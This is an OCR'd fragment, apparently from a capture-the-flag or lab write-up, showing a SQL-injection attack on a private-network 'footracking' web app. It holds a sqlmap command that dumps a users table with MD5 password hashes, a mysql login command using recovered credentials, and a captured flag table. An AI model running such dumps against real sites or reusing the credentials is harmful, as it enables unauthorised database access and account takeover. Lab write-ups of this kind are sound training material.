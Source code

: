 ```bash
| tbl_actions_log            |
| tbl_categories             |
| tbl_categories_relations   |
| tbl_downloads              |
| tbl_files                  |
| tbl_files_relations        |
| tbl_folders                |
| tbl_groups                 |
| tbl_members                |
| tbl_members_requests       |
| tbl_notifications          |
| tbl_options                |
| tbl_password_reset         |
| tbl_users                  |
+----------------------------+
30 rows in set (0.141 sec)

MySQL [cmsbase]> select * from cmsbase.flag
    -> ;
+----+------------------------------+
| id | content                      |
+----+------------------------------+
|  1 | Congratulations, you got it! |
+----+------------------------------+
1 row in set (0.141 sec)

```

```text
mysql --host=172.16.64.92 --user=fcadmin1 --password=c5d71f305bb017a66c5fa7fd66535b84 --port 63306 footracking
```

```text
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' -D footracking -T users --dump
Database: footracking                                                                                                                
Table: users
[4 entries]
+----+-----+-------------------------------------------+-----------+
| id | adm | password                                  | username  |
+----+-----+-------------------------------------------+-----------+
| 1  | yes | c5d71f305bb017a66c5fa7fd66535b84          | fcadmin1  |
| 2  | yes | 14d69ee186f8d9bbeddd4da31559ce0f          | fcadmin2  |
| 3  | no  | 827ccb0eea8a706c4c34a16891f84e7b (12345)  | tracking1 |
| 4  | no  | e10adc3949ba59abbe56e057f20f883e (123456) | tracking2 |
+----+-----+-------------------------------------------+-----------+
```

